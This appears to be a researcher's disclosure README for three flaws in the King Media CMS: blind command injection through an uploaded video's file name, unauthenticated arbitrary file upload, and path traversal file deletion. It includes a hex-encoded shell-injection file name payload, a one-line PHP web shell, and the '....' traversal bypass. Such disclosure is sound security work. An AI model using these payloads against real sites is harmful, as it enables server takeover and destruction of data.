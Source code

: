 # King Media Multiple Vulnerabilities
King Media is a premium CMS that allows you create a website where share all type multimedia content like images, videos, etc... I ve found and reported some critical vulnerabilities and here I explain it.

## King Media > 2.x/3.x/4.1/4.2 Blind RCE
### Information
Date: 15 Aug 2018

Author: Efren Diaz (https://twitter.com/elefr3n)

Vendor: Redkings / Kingthemes (https://codecanyon.net/user/redkings)

Reported to vendor: 11 Jun 2018

Software Link: https://codecanyon.net/item/king-media-video-image-upload-and-share/7877877

Version: from 2.0 to 4.1 (latest)

CVE: None

### Vulnerability description
The RCE is in the file videoupload.php, when the script finish the upload, execs a command with the ffmepg library to get a video thumbnail and here his where we can inject our command. The script receives the file with the $_FILES['myfile'] parameter, first checks that the request come from AJAX (HTTP_X_REQUESTED_WIDTH), second checks that the file type is 'video/mp4', and then uploads the video (nothing that we can not bypass). When the upload is finished calls with shell_exec a command to get the video thumbnail with /usr/bin/ffmpeg, we can see in the next line:
```
$cmd = "$ffmpeg -i $video; ls #  -deinterlace -an -ss $second -t 00:00:01 -r 1 -y -vcodec mjpeg -f mjpeg $image 2>&1";
```
We can send a video with our command in the file extension (example: foo.mp4;command #), but php gets the file name from $_FILES['myfile']['name'], then if our command contents a slash or other invalid filename character, will be removed. To avoid this problem, we need encode our command in hexadecimal and execute with a "custom payload" like this:
```
evil.mp4;echo $hex_encoded_command | xxd -r -p | sh #
```
With these payload our command will be executed correctly, but we dont get the command result because the return of shell_exec function is not printed, if we want get the command result we can send to a file in a directory where we have permissions (uploads for example)

### Exploit
exploit_blind_rce.php

## KingMedia 1.x/2.x/3.x/4.1/4.2 - Arbitrary File Upload

### Information
Date: 15 Aug 2018

Author: Efren Diaz (https://twitter.com/elefr3n)

Greets: **Daniel F. Rodriguez** aka dj.thd (https://github.com/dj-thd/)

Vendor: Redkings / Kingthemes (https://codecanyon.net/user/redkings)

Reported to vendor: 11 Jun 2018

Software Link: https://codecanyon.net/item/king-media-video-image-upload-and-share/7877877

Version: from 1.0 to 4.1 (Lastest)

CVE: None

### Vulnerability description
The vulnerability resides in processupload.php, this file process all image uploads. In resume, the script checks that the file is a valid image, but dont check the extension. Other big issue of the script is that works with unauthenticated request.

-First checks that the execution comes from an AJAX request (HTTP_X_REQUESTED_WITH).
-Second check that the filetype is valid image (image/png | image/gif | image/jpeg | image/pjpeg).
-Third executes a custom function called resizeImage() that basically do a thumbnail with some GD library php functions, if the thumbnail creation fails the script stop working, you need upload a image file with a small php code inside the metadata (ex: <?php shell_exec($_POST['command']); ?>) and it will saved on http://site.com/uploads/{your_file_name}-{random_numbers}.{you_file_extension}

Note: For any reason, I haved found some versions of the CMS with a rule in the .htaccess file to disable the ".php" execution on the uploads directory, no problem we can try with other extensions (let your imagination run wild !)

### Exploit
exploit_arbitrary_file_upload.php


## King Media 4.1/4.2 Arbitrary file delete
### Information
Date: 15 Aug 2018

Author: Efren Diaz (https://twitter.com/elefr3n)

Vendor: Redkings / Kingthemes (https://codecanyon.net/user/redkings)

Reported to vendor: 11 Jun 2018

Software Link: https://codecanyon.net/item/king-media-video-image-upload-and-share/7877877

Version: 4.0, 4.1

CVE: None

### Vulnerability Description:
The vulnerability resides in the file multipledelete.php file, this file receive a string in the parameter $_POST['name'], and try if exists the files and delete the next patterns:
```
uploads/CURRENT_YEAR/CURRENT_MONTH/{$_POST['name']}
uploads/CURRENT_YEAR/CURRENT_MONTH/thumb_/{$_POST['name']}
```
First, the script dont checks if we are athenticated, second, to avoid that you can upload directory, haves the next code in the line 10:
```
$fileName=str_replace("..",".",$fileName); //required. if somebody is trying parent folder files
```
To avoid this check is than easy like put four points, for example if we put ..../..../..../x.php in the $_POST['name'] parameter, we can delete a php file in the application path.

### Exploit
Do it yourself :D

